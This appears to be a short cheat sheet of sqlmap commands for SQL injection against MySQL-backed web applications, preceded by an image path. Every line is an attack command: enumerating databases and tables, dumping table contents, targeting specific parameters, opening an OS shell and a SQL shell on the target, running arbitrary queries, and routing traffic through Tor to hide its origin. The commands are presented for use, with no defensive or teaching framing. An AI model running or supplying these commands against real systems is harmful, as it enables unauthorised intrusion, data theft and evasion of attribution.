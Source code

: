 # Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

# Enumerate tables
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

# Dump table data
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump

# Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

# Specify parameter to exploit in 'nice' URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1

# Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell

# Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell

# SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

# Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
